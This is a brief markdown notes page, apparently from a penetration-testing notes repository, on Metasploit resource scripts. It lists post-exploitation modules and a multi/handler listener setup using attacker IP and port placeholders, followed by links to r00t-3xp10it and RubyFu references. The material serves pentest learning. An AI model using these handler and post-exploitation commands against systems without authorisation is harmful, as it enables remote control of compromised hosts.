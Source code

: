 # Resource

TODO: Provide resource scripts to automate the process in metasploit

```
run post/multi/gather/run_console_rc_file

run post/multi/gather/multi_command

run post/multi/manage/multi_post

meterpreter > run multi_console_command
```

```
<ruby>
run_single("exploit -j -z")
</ruby>
```

```
<ruby>
use exploit/multi/handler
set payload <payload_module>
set lhost <attacker_IP>
set lport <attacker_PORT>
set ExitOnSession false
exploit -j
<ruby>
```

---
## References

### r00t 3xp10it

- [r00t-3xp10it: Resource Files](https://github.com/r00t-3xp10it/resource_files)

- [r00t-3xp10it: msf-auxiliarys](https://github.com/r00t-3xp10it/msf-auxiliarys/wiki/Welcome-to-the-msf-auxiliarys-wiki!)

### RubyFu

- [RubyFu: API and Extensions](https://rubyfu.net/module-0x5-or-exploitation-kung-fu/metasploit/meterpreter/api-and-extensions)

- [RubyFu: Meterpreter Scripting](https://rubyfu.net/module-0x5-or-exploitation-kung-fu/metasploit/meterpreter/meterpreter-scripting)

- [RubyFu: Railgun API Extension](https://rubyfu.net/module-0x5-or-exploitation-kung-fu/metasploit/meterpreter/railgun-api-extension)